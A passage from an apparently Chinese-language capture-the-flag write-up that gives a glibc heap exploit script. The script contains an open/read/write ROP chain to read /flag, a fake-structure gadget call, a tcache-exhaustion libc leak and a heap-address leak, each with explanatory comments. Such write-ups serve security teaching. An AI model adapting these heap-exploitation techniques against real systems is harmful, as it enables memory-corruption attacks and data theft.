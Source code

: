 ```python
        heap_base+0xad0,
        pop_rsi_ret,
        0,
        pop_rdx_ret,
        0,
        pop_rax_ret,
        2,
        syscall_ret, # open
        pop_rdi_ret,
        3,
        pop_rsi_ret,
        heap_base+0xad0,
        pop_rdx_ret,
        0x30,
        pop_rax_ret,
        0,
        syscall_ret, # read
        pop_rdi_ret,
        1,
        pop_rax_ret,
        1,
        syscall_ret, # write
]))

new(8,0xf0,flat({ #使用flat将多个序列生成单一序列
        0x00: 0x67616C662F, # /flag  #在偏移0x00处存入flag字段
        0x28: libc_base+0x00000000000578c8, #在偏移0x28处存入地址
        0x48: heap_base+0xfa0  #指向字符串的位置
}, filler=b'\x00')) #最后有b'\x00' 填充剩余的位置
new(9,0xf0,p64(libc_base+0x0000000000154dea)) # rbp=[rdi+0x48]; rax=[rbp+0x18]; call [rax+0x28]
#dbg('b *(free+161)\nc')
free(8)

irt()
```
### 调试的全过程
#### 泄露Libc
```python
#tcache中每个链表最多7个节点(chunk)
#暴tcache，进入unsorted bin
for i in range(8):
        new(i,0xf0,b'')
for i in range(8):
        free(i)
#泄露main_arena
show(7)
rc(0x50)
#计算出libc，使用main_arena的工具
libc_base = uu64(rc(8))-0x1ecbe0
success('libc_base --> %s',hex(libc_base))
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685597272680-c25a1fd1-14e3-4725-a614-71f7b1c0f174.png#averageHue=%23040302&clientId=u5b8e4ff9-0d4c-4&from=paste&height=299&id=u893348df&originHeight=493&originWidth=2442&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=188240&status=done&style=none&taskId=uf34b8568-44c6-4ad5-b121-4a8b1281533&title=&width=1479.9999144583087)
#### 泄露堆地址
```python
#泄露堆指针.指向的tcache的结构
show(0)
rc(8)
heap_base = uu64(rc(8))-0x10
success('heap_base --> %s',hex(heap_base))
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685597355673-2476c939-9b84-44e1-86df-f413f195642b.png#averageHue=%23080706&clientId=u5b8e4ff9-0d4c-4&from=paste&height=525&id=uf1df2a7f&originHeight=867&originWidth=2473&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=438250&status=done&style=none&taskId=ufe75a984-a4ae-4e89-b10c-0e1fc43c0ea&title=&width=1498.7877921602774)